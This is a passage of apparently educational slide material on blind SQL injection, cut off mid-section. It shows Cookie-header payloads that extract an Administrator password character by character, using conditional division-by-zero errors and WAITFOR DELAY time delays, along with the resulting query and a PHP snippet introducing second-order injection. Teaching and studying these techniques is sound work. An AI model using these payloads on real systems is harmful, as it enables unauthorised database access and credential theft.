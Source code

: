 ```
Cookie: TrackingId=xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a
```

```
SELECT TrackingId FROM TrackedUsers WHERE TrackingId='xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) = 'm') THEN 1/0 ELSE 'a' END FROM Users)='a'
```

---

## Blind SQL injection - time delays

What if the application catches database errors and handles them gracefully?

----

## Blind SQL injection - time delays

```
Cookie: TrackingId=xyz'; IF (1=1) WAITFOR DELAY '0:0:10'--
Cookie: TrackingId=xyz'; IF (1=2) WAITFOR DELAY '0:0:10'--
```

----

## Blind SQL injection - time delays

```
Cookie: TrackingId=xyz'; IF (SELECT COUNT(username) FROM Users WHERE username = 'Administrator' AND SUBSTRING(password, 1, 1) = 'm') = 1 WAITFOR DELAY '0:0:{delay}'--
```
---

## Second Order SQL Injection

```
$sql = "INSERT INTO user (username, password)  VALUES (:username, :password)";
$data = [
        'username' => $userName,
        'password' => $password,
        'first_name' => $firstName,
        'second_name' => $secondName
        ];
$stmt = $conn->prepare($sql);
$stmt->execute($data);
```

----

## Second Order SQL Injection
